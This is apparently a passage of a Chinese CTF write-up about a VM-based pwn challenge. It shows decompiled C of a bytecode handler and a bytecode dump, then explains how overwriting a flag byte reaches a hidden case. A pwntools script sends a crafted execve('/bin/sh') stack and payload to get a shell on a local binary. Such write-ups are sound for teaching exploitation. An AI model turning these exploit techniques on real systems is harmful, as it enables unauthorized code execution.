 ```c
      case 4:
        ++rip_now;
        if ( !(_BYTE)qword_40C0 )
        {
          v3 = (__m128d)_mm_loadu_si128((const __m128i *)&qword_4060->rsp_);
          v4 = qword_4060->reg7;
          v5 = qword_4060->padding1[0xFB8] == 0;
          REGs.reg0 = qword_4060->reg0;
          v6 = qword_4060->reg1;
          REGs.reg7 = v4;
          REGs.reg1 = v6;
          v7 = qword_4060->reg2;
          *(__m128d *)&REGs.rip_ = _mm_shuffle_pd(v3, v3, 1);
          REGs.reg2 = v7;
          v8 = qword_4060->reg3;
          LOBYTE(qword_40C0) = !v5;
          REGs.reg3 = v8;
          REGs.reg4 = qword_4060->reg4;
          rip_now = (_BYTE *)qword_4060->rip_;
        }
```

然后程序就会按照执行一次read-执行case4的顺序进行操作.

```assembly
.rodata:00000000000020B4 unk_20B4        db    6                 ; DATA XREF: .data:off_4010↓o
.rodata:00000000000020B5                 db    0 ;rax=0
.rodata:00000000000020B6                 db    6
.rodata:00000000000020B7                 db    1 ;rdi=0
.rodata:00000000000020B8                 db    5
.rodata:00000000000020B9                 db    4
.rodata:00000000000020BA                 db    0
```

但我们注意到,qword4060在case4中的设置方式不是直接设为1,而是:

```c
v5 = qword_4060->padding1[0xFB8] == 0;
LOBYTE(qword_40C0) = !v5;
```

因此,我们可以提前将buf设为`qword_4060->padding1[0xFB8]`,然后将它覆盖为0,就能获得执行case5的机会.

```python
from pwn import *

r=process("./pwn")
gdb.attach(r)
pause()
#0xff0
pay1=b"\x01\x00\x01\x03"+b"\x02\x06\x01\x01\x02\x06\x01\x02"+b"\x07\x01"+b"\x07\x02"*(0x1FF+0x1F7)+b"\x03\x06\x03\x05"
pay1=pay1.ljust(0x1000,b"\x00")
stack=p64(59)+p64(8)+b"/bin/sh\x00"
stack=stack.ljust(0x1000,b"\x00")

r.send(stack)

r.send(pay1)

r.send(b"\x00"*8)
r.interactive()

#将reg2设为v9+0xfb8，reg3设为0x8,然后触发6061540
#case4:14cf
#case5:1478
```